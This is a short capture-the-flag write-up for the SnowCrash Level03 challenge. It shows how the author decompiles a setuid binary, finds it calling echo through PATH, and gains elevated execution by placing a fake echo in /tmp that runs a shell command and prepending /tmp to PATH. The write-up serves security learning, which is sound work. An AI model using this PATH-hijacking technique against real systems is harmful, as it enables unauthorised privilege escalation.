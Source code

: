 # WRITE UP

**Box**:            SnowCrash

**Name**:           Level03

**Description**:    Find the flag to connect to level01

**Category**:       Reverse Engineering

**Difficulty**:     Easy

---

## Basic Checking
Looking for the basics informations as:
```bash
whoami
```
```bash
pwd
```
```bash
ls -la
```
HERE !! There is a file **level03** (this is the name of the actual CTF) and it's executable.

---

## Exploit

```bash
./level03
```

return
'''Exploit me'''

I sadly can't just read the file because it already have been compiled! Then i get it on my own computer by running:

```bash
scp -p 4242 level03@<ip>:level03 ~/Desktop
```
I usually would use Ghidra, but thanks to permission issues I would rather use __https://dogbolt.org__

Here I can see that the file call the **echo** built in function by specifying the pass of it.
As the executable do the command with the sudo permission, If I can use it to run whatever I want I could do something interesting.

I create a fake **echo** file in wich there is:
```bash
/bin/sh -c 'getflag'
```

Then place the path of it before the path of the actual echo by running:
```bash
export PATH=/tmp:$PATH
```

Then I run the initial **level03** executable.

**FLAG FOUND**


